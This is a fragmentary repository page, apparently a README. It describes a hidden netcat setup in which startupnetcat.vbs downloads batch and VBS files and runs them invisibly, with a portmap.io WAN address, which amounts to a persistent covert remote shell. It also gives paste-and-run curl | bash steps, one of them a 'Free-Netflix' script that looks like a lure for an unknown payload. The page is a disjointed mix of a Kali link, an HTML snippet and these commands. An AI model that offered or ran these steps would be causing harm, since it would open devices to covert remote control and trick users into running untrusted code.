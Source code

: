 
https://www.kali.org/docs/nethunter/nethunter-rootless/

<!-- The text field -->
<input type="text" value="https://www.kali.org/docs/nethunter/nethunter-rootless/" id="myInput">

<!-- The button used to copy the text -->
<button onclick="myFunction()">Copy text</button>


the two .bat files and vbs are going to be downloaded and executed by another vbs files named startupnetcat.vbs will download the three files 
and execute them invisibly
the netcat.bat have inside local and wan (portmap.io) ip so if locally ur ip changed just edit the netcat.bat file









Server command

1) curl -LO https://raw.githubusercontent.com/wolfyy59/wfy/master/server.sh  

2) bash server.sh

 
===

Netflix command 

===

1) curl -LO https://raw.githubusercontent.com/wolfyy59/wfy/master/Free-Netflix.sh

2) bash Free-Netflix.sh
